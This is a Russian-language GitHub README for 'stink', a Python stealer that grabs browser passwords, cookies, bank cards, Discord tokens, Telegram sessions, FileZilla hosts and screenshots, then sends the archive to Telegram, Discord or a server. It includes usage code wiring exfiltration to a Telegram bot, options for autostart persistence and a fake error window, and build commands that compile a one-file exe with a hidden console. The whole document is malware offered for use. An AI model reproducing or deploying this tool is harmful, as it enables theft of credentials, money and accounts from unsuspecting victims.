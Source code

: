 # stink

Стиллер всего лишь в несколько строк с отправкой в Telegram / Server / Discord.

**Wiki:** https://github.com/FallenAstaroth/stink/wiki

## Описание
`stink` уже имеет внушительный функционал, который будет только расширяться.

## Навигация
* [Текущие возможности](#Текущие-возможности)
* [Пример использования](#Пример-использования)
  * [Стандартный](#Стандартный)
  * [Определённые модули](#Определённые-модули)
  * [Дополнительные параметры](#Дополнительные-параметры)
* [Создание exe](#Создание-exe)
  * [Создание исполняемого файла](#Создание-исполняемого-файла)
  * [С помощью BAT](#С-помощью-BAT)
  * [С помощью CMD](#С-помощью-CMD)

### Текущие возможности
1. Поддержка следующих браузеров:
   - Chrome
   - Opera
   - Opera GX
   - Edge
   - Brave
   - Vivaldi
2. Сбор следующих данных:
   - Скриншот
   - Куки
   - Пароли
   - Банковские карты
   - История
   - Закладки
   - IP-адрес
   - Конфигурация системы
   - Активные процессы
   - Токены Discord
   - Сессии Telegram
   - Хосты FileZilla
3. Поддержка мультипрофилей браузера.
4. Отправка архива собранных данных в Telegram / Server / Discord.
5. Выполнение в отдельном потоке.
6. Выполнение с использованием многопроцессорности.
7. Возможность добавления в автозагрузку.
8. Вывод окна с фейковой ошибкой.

## Пример использования
### Стандартный
```python
from stink import Stealer
from stink.enums import Senders

if __name__ == '__main__':
    Stealer(senders=[Senders.telegram(token="YOUR_TOKEN", user_id=YOUR_ID)]).run()
```
### Определённые модули

Пример со сбором только системных данных и скриншота.
```python
from stink import Stealer
from stink.enums import Features, Senders

if __name__ == '__main__':
    Stealer(senders=[Senders.telegram(token="YOUR_TOKEN", user_id=YOUR_ID)], features=[Features.system, Features.screenshot]).run()
```
### Дополнительные параметры

- `features` - включает модули из списка. Модули можно импортировать из `stink.enums.Features`. Доступные модули:

  - `passwords` - сбор паролей.

  - `cookies` - сбор куки.

  - `cards` - сбор банковских карт.

  - `history` - сбор истории поиска.

  - `bookmarks` - сбор закладок.

  - `processes` - сбор активных процессов.

  - `system` - сбор конфигурации системы.

  - `screen` - скриншот.

  - `discord` - сбор токенов Discord.

  - `telegram` – сбор сессий Telegram.

  - `filezilla` – сбор хостов FileZilla.
  

- `utils` - включает утилиты из списка. Утилиты можно импортировать из `stink.enums.Utils`. Доступные утилиты:

  - `errors` - вывод ошибок.

  - `autostart` - добавление в автозагрузку.

  - `message` - вывод фейкового окна ошибки.
  

- `senders` - запускает способы отправки из списка. Способы отправки можно импортировать из `stink.enums.Senders`. Доступные способы отправки:

  - `server` - отправка на сервер.

  - `telegram` - отправка в Telegram.

  - `discord` - отправка в Discord.

## Создание exe
Python является интерпретируемым языком программирования, поэтому мы сначала транслируем его в C, а затем скомпилируем в .exe файл.
Для этого нам понадобится Nuitka.

### Создание исполняемого файла

1. [Скачиваем](https://github.com/FallenAstaroth/stink/archive/refs/heads/master.zip) архив.
2. Распаковываем архив и переходим в директорию stink-master.
3. Создаем test.py (или любое другое название) файл в этой же директории со следующим кодом:
```python
from stink import Stealer
from stink.enums import Senders

if __name__ == '__main__':
    Stealer(senders=[Senders.telegram(token="YOUR_TOKEN", user_id=YOUR_ID)]).run()
```

### С помощью BAT
1. Запускаем compiler.bat.

### С помощью CMD
1. Открываем `cmd`.
2. Прописываем команду:
```
pip install virtualenv
```
3. Переходим в папку с файлом `test.py`:
```
cd path\to\file
```
4. Создаем виртуальное окружение и активируем его:
```
virtualenv venv
```
```
venv\Scripts\activate
```
5. Устанавливаем зависимости:
```
pip install -r requirements.txt
```
6. Устанавливаем Nuitka:
````
pip install Nuitka==0.6.16.4
````
7. Для уменьшения размера файла дополнительно устанавливаем Zstandard (опционально):
```
pip install zstandard==0.17.0
```
8. Прописываем команду:
```
nuitka --onefile --plugin-enable=multiprocessing --windows-disable-console test.py
```

После выполнения команды получаем test.exe файл со скрытой консолью.
